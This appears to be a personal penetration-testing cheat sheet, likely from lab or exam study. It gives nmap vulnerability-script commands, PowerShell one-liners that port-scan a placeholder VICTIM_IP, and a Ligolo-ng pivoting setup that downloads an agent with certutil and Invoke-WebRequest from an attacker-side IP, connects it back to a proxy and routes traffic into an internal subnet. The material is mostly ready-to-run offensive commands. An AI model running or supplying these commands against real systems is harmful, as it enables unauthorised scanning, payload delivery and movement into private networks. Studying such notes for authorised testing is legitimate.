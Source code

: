 ```sh

cat script.db  | grep "\"vuln\""

sudo nmap --script "vuln" 192.168.xx.xx

#give details about the script
nmap --script-help=clamav-exec.nse

```


## Windows Port Scanning

This is a way to live off the land in Windows and perform a port scan.

```powershell
# perform full TCP connection to test if port open
Test-NetConnection -Port 445 $VICTIM_IP

# scanning multiple ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("VICTIM_IP", $_)) "TCP port $_ is open"} 2>$null

# limited ports to search
22,25,80,135,139,445,1443,3306,3389,5432 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("VICTIM_IP", $_)) "TCP port $_ is open"} 2>$null
```












# IGOL-NG

Use this guide:
https://4pfsec.com/ligolo

```shell
#windows
Invoke-WebRequest -Uri 192.168.45.230/windowsprivesc/ligoagent.exe -OutFile agent.exe
certutil -f -split -urlcache http://192.168.49.106/windowsprivesc/ligoagent.exe agent.exe

sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up

./proxy -selfcert
./agent -connect 192.168.49.106:11601 -ignore-cert

#add a route
sudo ip route add 172.16.237.0/24 dev ligolo

#remove a route 
sudo ip route del 172.16.237.0/24 dev ligolo

#MONITOR connection
IP="172.16.106.100"; PORT=445; TIMEOUT=5;SLEEP=20;while true; do echo "================================="; date;timeout $TIMEOUT nc -nvz $IP $PORT || echo -e "no connection to $IP $PORT";sleep $SLEEP;done
```
